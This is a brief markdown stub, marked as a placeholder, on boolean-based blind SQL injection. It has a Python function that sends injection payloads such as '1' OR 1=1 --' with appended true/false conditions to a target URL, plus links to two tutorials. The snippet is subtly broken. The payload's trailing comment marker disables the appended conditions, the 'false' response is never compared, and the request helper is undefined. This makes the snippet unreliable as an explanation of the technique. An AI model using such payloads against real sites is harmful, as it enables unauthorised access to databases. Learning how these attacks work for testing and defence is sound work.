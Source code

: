 # Boolean-Based Blind Query SQL Injection

This is just for reference but will be removed once the information is filled.

```python
# Check if the response contains a specific string when the condition is true
def boolean_based_blind_sql_injection(target_url, injection_payload):
    response_when_condition_true = send_request(target_url, injection_payload + " AND 1=1 --")
    response_when_condition_false = send_request(target_url, injection_payload + " AND 1=2 --")

    if "True Response String" in response_when_condition_true:
        return True  # The injected condition is true
    else:
        return False  # The injected condition is false

# Example usage
target_url = "https://example.com/vulnerable-page"
injection_payload = "1' OR 1=1 --"

result = boolean_based_blind_sql_injection(target_url, injection_payload)
print("Is the injected condition true?", result)
```

https://www.hackingarticles.in/beginner-guide-sql-injection-boolean-based-part-2/

http://securityidiots.com/Web-Pentest/SQL-Injection/Blind-SQL-Injection.html
